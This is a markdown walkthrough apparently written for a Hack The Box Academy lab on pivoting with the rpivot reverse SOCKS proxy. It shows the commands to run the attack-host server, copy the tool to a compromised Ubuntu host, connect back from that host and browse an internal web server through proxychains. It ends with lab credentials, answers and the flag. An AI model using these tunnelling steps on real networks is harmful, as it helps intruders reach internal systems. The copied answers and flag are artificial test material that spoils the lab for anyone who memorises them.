

# Web Server Pivoting with Rpivot
[Rpivot](https://github.com/klsecservices/rpivot) is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side.

We will take the scenario below, where we have a web server on our internal network (`172.16.5.135`), and we want to access that using the rpivot proxy.



We can start our rpivot SOCKS proxy server using the below command to allow the client to connect on port 9999 and listen on port 9050 for proxy pivot connections.

## Cloning rpivot

```sh
masterofblafu@htb[/htb]$ git clone https://github.com/klsecservices/rpivot.git
```

## Installing Python2.7

```
1. Download this python file : https://www.python.org/ftp/python/2.7.13/Python-2.7.13.tgz
2. Change file permission: chmod -R 777 Python-2.7.13
3. Navigate to Python-2.7.13 and run the command: ./configure
4. Then run: make && make install
5. Verify with: python2 -V
```

## Running server.py from the Attack Host
We can start our rpivot SOCKS proxy server to connect to our client on the compromised Ubuntu server using server.py.

```sh
masterofblafu@htb[/htb/rpivot]$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

## Transfering rpivot to the target
Before running client.py we will need to transfer rpivot to the target. We can do this using this SCP command:

```sh
masterofblafu@htb[/htb]$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

## Running client.py from Pivot Target

```sh
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

Backconnecting to server 10.10.14.18 port 9999
```

## Confirming Connection is Established

```sh
New connection from host 10.129.202.64, source port 35226
```

We will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, which was initially started by the Python server.

## Browsing to the Target Webserver using Proxychains
Finally, we should be able to access the webserver on our server-side, which is hosted on the internal network of 172.16.5.0/23 at 172.16.5.135:80 using proxychains and Firefox.

```sh
masterofblafu@htb[/htb]$ proxychains firefox-esr 172.16.5.135:80
```

## Connecting to a Web Server using HTTP-Proxy & NTLM Auth
Similar to the pivot proxy above, there could be scenarios when we cannot directly pivot to an external server (attack host) on the cloud. Some organizations have [HTTP-proxy with NTLM authentication](https://docs.microsoft.com/en-us/openspecs/office_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a) configured with the Domain Controller. In such cases, we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username and password. In these cases, we could use rpivot's client.py in the following way:

```
ubuntu@WEB01:~/rpivot$ python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```

## Questions
SSH to **10.129.5.137** (ACADEMY-PIVOTING-LINUXPIV), with user `ubuntu` and password `HTB_@cademy_stdnt!`
1. From which host will rpivot's server.py need to be run from? The Pivot Host or Attack Host? Submit Pivot Host or Attack Host as the answer. **Answer: Attack Host**
2. From which host will rpivot's client.py need to be run from? The Pivot Host or Attack Host. Submit Pivot Host or Attack Host as the answer. **Answer: Pivot Host**
3. Using the concepts taught in this section, connect to the web server on the internal network. Submit the flag presented on the home page as the answer. **Answer: I_L0v3_Pr0xy_Ch@ins**
   - Install Python2.7 on the attack host:
   - `$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0` → Run the server on attack host
   - `$ scp -r rpivot ubuntu@10.129.5.137:/home/ubuntu` → Copy rpivot to the pivot host
   - `$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999` → Run the client to connect back to the listening port at attack host
   - `$ proxychains curl http://172.16.5.135 > test.html` → Read the web server response to obtain the flag